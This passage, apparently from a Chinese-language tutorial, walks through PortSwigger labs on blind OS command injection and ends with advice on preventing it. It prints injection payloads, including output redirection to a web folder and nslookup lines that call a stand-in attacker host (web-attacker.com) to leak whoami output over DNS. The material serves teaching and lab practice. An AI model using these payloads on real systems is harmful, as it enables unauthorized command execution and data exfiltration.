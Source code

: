 `>` 字元將 `whoami` 指令的輸出發送到指定檔案。接著，你可以使用瀏覽器存取 `https://vulnerable-website.com/whoami.txt` 來查看檔案，並看到注入的指令的輸出。

* **Lab: [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)**
    1. 使用 Burp Suite 的 Intercept 並修改查詢庫存的請求。
    2. 將 `storeID` 參數的值改成 `email=x||whoami > /var/www/images/whoami.txt||`。
    3. 接著存取找到存取照片的 API：`/image?filename=16.jpg`
    4. 將 `filename` 參數的值改成 `whoami.txt` 即可查看注入的指令的輸出並完全此 Lab。

### 透過界外應用程式安全測試（OAST）技術利用盲指令注入

你可以透過 OAST 技術，使用注入的指令觸發外部的網路交互。例如：

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 會使用 `nslookup` 指令對指定網址進行 DNS 查詢。攻擊者可以檢測是否真的有進行查詢，以確認指令是否已成功注入。

* **Lab: [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)**
    1. 只有專業版的 Burp Suite 可以做這題啦，我窮人www

OAST 提供了一種簡單的方法將注入的指令輸出傳出去：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

這會導致 DNS 查詢包含 `whoami` 指令輸出的網域名：

```
wwwuser.kgji2ohoyw.web-attacker.com
```

* **Lab: [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)**
    1. 還是一樣需要專業版 Burp Suite 啦，歡迎贊助～

## 如何防範指令注入攻擊

防止指令最有效的方法就是絕對不要透過應用的程式碼中調用底層 OS 指令。在幾乎所有的情況下，都有其他的方式可以使用更安全的 API 執行所需的功能。

如果你仍然需要使用使用者提供的輸入調用 OS 指令，則必須執行強輸入驗證。有效的驗證包含：

* 根據允許的值進行白名單驗證
* 驗證輸入是否為數字
* 驗證輸入是否僅包含字母、數字字元，不包含其他語法或空格

且無嘗試透過轉譯 shell 字元來清理輸入。在實踐中，這太容易造成失誤，並被攻擊者繞過。